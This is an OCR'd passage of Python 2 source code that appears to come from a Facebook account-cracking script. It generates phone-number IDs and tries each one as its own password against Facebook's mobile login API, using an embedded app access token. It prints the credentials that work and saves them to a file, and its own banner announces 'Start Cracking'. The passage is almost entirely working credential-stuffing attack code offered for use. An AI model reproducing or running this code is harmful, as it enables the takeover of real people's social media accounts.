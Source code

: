                 id.append(line.strip())

        except IOError:

            print ("[!] File Not Found")

            raw_input("\n[ Back ]")

            blackmafiax()

    elif peak =='0':

        login()

    else:

        print '[!] Fill In Correctly'

        action()

    print 50* '\033[1;94m-'

    xxx = str(len(id))

    jalan ('\033[1;92m[+] Total ids number: '+xxx)

    jalan ('\033[1;92m[+] Code you choose: '+c)

    jalan ("\033[1;93m[+] Wait A While Start Cracking...")

    jalan ("\033[1;92m[+] To Stop Process Press Ctrl+z")

    print 50* '\033[1;97m-'

    def main(arg):

        global cpb,oks

        user = arg

        try:

            os.mkdir('save')

        except OSError:

            pass

        try:

            pass1 = user

            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')

            q = json.load(data)

            if 'access_token' in q:

                print '\x1b[1;92m[Successfull] ' + k + c + user + '  |  ' + pass1                                       

                okb = open('save/Checkpoint.txt', 'a')

                okb.write(k+c+user+pass1+'\n')

